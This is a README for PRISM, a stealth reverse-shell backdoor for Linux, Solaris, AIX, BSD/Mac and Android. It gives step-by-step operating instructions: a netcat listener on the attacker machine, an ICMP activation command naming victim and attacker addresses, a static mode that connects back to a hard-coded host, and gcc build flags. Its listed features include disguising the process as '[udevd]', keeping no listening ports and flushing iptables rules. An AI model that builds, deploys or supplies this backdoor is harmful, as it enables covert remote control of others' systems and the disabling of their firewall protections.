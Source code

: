 # Prism

PRISM is an user space stealth reverse shell backdoor. 

It was fully tested on:

* **Linux**
* **Solaris**
* **AIX**
* **BSD/Mac**
* **Android**

PRISM can works in two different ways: **ICMP** and **STATIC** mode.

## ICMP mode:

Using this operation mode the backdoor waits silently in background for a specific ICMP packet 
containing the host/port to connect back and a private key to prevent third party access. 

* First, run **netcat** on the attacker machine to wait for incoming connection from the backdoor:
```bash
$ nc -l -p 6666 
```

* Using the **sendPacket.py** script (or another packet builder) send the activation packet to the backdoor: 
```bash
./sendPacket.py 192.168.0.1 p4ssw0rd 192.168.0.10 6666
```
 **192.168.0.1**  is the victim machine running prism backdoor  
 **p4ssw0rd** is the key  
 **192.168.0.10** is the attacker machine address  
 **6666** is the attacker machine port

* The backdoor will connect back to netcat!


## STATIC mode:

Using this operation mode the backdoor try to connects to an hard-coded IP/PORT. 
In this case, run netcat listening on the hard-coded machine/port:
```bash
 $ nc -l -p [PORT] 
```

## Features: 

* Two operating modes (ICMP and STATIC)
* Runtime process renaming
* No listening ports
* Automatic iptables rules flushing
* Written in pure C
* No library dependencies

## Configuration:

Before building, you have to configure the backdoor editing the source code.  
Following the configuration parameters description:

**STATIC mode:**  
*REVERSE_HOST*:   Machine address to connect back  
*REVERSE_PORT*:   Machine port to connect back  
*RESPAWN_DELAY*:  Time, in seconds, between each connection  

**ICMP mode:**  
*ICMP_KEY*:       Key/Password to activate the backdoor  

**Generic parameters:**  
*MOTD*:           Message to be printed at the backdoor connection  
*SHELL*:          Shell to execute  
*PROCESS_NAME*:   Fake process name  

## Building:

`gcc <..OPTIONS..> -Wall -s -o prism prism.c`

Available GCC options:  
**-DDETACH**        #Run the process in background  
**-DSTATIC**        #Enable STATIC mode (default is the ICMP mode)  
**-DNORENAME**      #Doesn't renames the process  
**-DIPTABLES**     #Try to flush all iptables rules  

Example:  
`gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c`

## Cross Compiling:
TO DO


## Backdoor building information

The backdoor ignore any parameter throught the command line, except the "**Inf0**" (the last char is a digit).  
This option allow you to see some information about the backdoor:

```bash
$ ./prism Inf0
 Version:  	0.5
 Mode:			icmp
 Key:			p455w0rD
 Process name:		[udevd]
 Shell:			/bin/sh
 Detach:		Yes
 Flush Iptables:	No
```
